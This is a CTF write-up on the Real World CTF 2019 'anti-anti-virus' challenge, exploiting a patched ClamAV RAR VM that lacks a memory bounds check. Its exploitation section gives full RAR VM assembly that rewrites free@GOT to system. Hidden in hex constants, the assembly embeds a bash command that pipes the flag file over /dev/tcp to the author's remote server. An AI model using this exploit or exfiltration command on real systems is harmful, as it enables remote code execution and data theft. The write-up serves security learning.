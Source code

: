 ## Real World CTF 2019

This year's real world CTF was really awesome. It had several improvements from last year. (challenges had more directions and hints, crypto and reverse challenges introduced) I spent a lot of time on Fuchsia IPC reversing (`cai-dan-ti-1`) and peeking at recent PHP commit logs (`MoP`) but I coudldn't solve any of them, which is sad. I managed to solve only one challenge, `anti-anti-virus`. Here is my write-up.

Also, just in case you're curious the pwnables that came out were based on the following topics: 
<1> cai-dan-ti (1,2): Reversing-Shellcoding-Pwning on Google Fuchsia 
<2> Dezhou Instruments: Pwning an iPhone application 
<3> MoP: exploiting a PHP memory corruption bug to bypass `base_dir` and `disable_function` to achieve full RCE. 
<4> Across the Great Wall: exploiting a userland proxy
<5> faX senDeR: some userland pwanble related to XDR, I don't really know much
<6> accessible & appetizer: Browser exploitation challenges


## Analysis
We are given a lot of shared library files, two binaries (`clamscan` and `clamdscan`), a readme and a patch.diff file. The readme states that the two binaries were built on version commit ID ``, and applied the given patch.diff file. We can actually build clam ourselves, by doing 
```bash
git clone https://github.com/Cisco-Talos/clamav-devel
git reset --hard 6c11e824a794770c469f3a46141d5ea7927b6ea6
apply -s -p1 < ../patch.diff
```

ClamAV is an open source virus scanner. What we should do is to get full RCE when ClamAV is given a file. At first I thought the challenge would be really hard, because the clamscan binary had all protections (PIE, NX, Full RELRO, FORTIFY) enabled and we need to get a reverse shell (the server does not show any output, and leaking the flag bit by bit via time-based approach is not possible due to PoW) without any interactions. It is hard to bypass ASLR in an interactionless-exploit unless the given primitive is really powerful. 

I took a look at the patch file, and spotted mainly two things. 
<1> Some structure members' size increased from 4 bytes to 8 bytes. Theoretically, this should not introduce any bugs, but I guess the intention was to make exploitation easier, since in 64bit userspace applications pointers are 8 bytes.
<2> I spotted something that looks like a bounds check elimination. I guessed this is the root bug. 

All the patches were done on a file called rarvm.c. RAR is a file format for archiving data. How is VM (Virutal Machine) supposed to be related to it? At first I thought that it was a sandboxed executor for binaries inside the archived rar file. I started analyzing the source code but couldn't understand what rar vm really is. 

After getting some sleep, I google searched about RAR vm. It showed a very old [CVE]() on ClamAV, which seemed kinda relevant. Also I spotted a [blogpost]() about rarVM. WTF? RAR has support for custom bytecode, and unrar'ing programs execute them? How surprising. 

I also found [this]() repository, which implemented a linker and assembler for rar files. I think it was super cool. I decided to use it when constructing my exploit.

Now, I get the point of the challenge: escape the implemented rar VM executor and get RCE

## Exploitation
The bounds check elimination in the patch is the following:
```
-		return ((unsigned int *)&rarvm_data->mem[(*cmd_op->addr+cmd_op->base) & RARVM_MEMMASK]);
+		/* return ((unsigned int *)&rarvm_data->mem[(*cmd_op->addr+cmd_op->base) & RARVM_MEMMASK]); */
+		return ((size_t *)&rarvm_data->mem[(*cmd_op->addr+cmd_op->base) /*& RARVM_MEMMASK*/]);
```
Basically it is a piece of code that translates RAR VM memory addresses to real memory addresses. Originally. the RAR VM memory address was confined from range 0 ~ 0x3fffff. (RARVM_MEMMASK = 0x3fffff) However, the masking is eliminated, so we can access arbitrary addresses relative to `rarvm_data->mem`. With the help of a debugger, I found that mem points to an mmapped chunk address, so we can access all the libraries through it, since libraries are also loaded via mmap and have constant distances from mmapped chunks. My idea was to access the free@GOT of libunrar.so, read the lower 4 bytes, subtract an adequate value so that the 4 bytes are equal to the lower 4 bytes of system, and place those 4 bytes back at free@GOT.

Also, the `mem` pointer must be freed at some point, so I wrote code so that it places commands at the start of `mem`. The start of `mem` can be accessed by the VM address 0. I wrote a helper script, `encode_cmd.py` that generates an assembly code that does this. To prevent the commandline string from overwriting running code, I padded the start with a bunch of NOP sequences. Here is my full exploit.

```
#include <constants.rh>
#include <util.rh>
#include <math.rh>
#include <crctools.rh>

_start:
	; Install our message in the output buffer
	mov r3, #0x0
	add r3, #0x1622bff0 ; offset between unrar start and mmap chunk
	add r3, #0x20C018
	mov r4, [r3]
	sub r4, #296208
	mov [r3], r4 ; change free to system
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	
	mov [r3+#0], #0x6e69622f
	mov [r3+#4], #0x7361622f
	mov [r3+#8], #0x632d2068
	mov [r3+#12], #0x2f282220
	mov [r3+#16], #0x2f6e6962
	mov [r3+#20], #0x20746163
	mov [r3+#24], #0x616c662f
	mov [r3+#28], #0x202f2067
	mov [r3+#32], #0x31263e32
	mov [r3+#36], #0x203e2029
	mov [r3+#40], #0x7665642f
	mov [r3+#44], #0x7063742f
	mov [r3+#48], #0x322e312f
	mov [r3+#52], #0x352e3535
	mov [r3+#56], #0x33362e34
	mov [r3+#60], #0x3939392f
	mov [r3+#64], #0x2238
	call $_success
```

Now using rarvmtools, compile this assembly fiel (it feels weird to do `make paylaod.rar`!) and upload it. It sends the flag to my listening server.

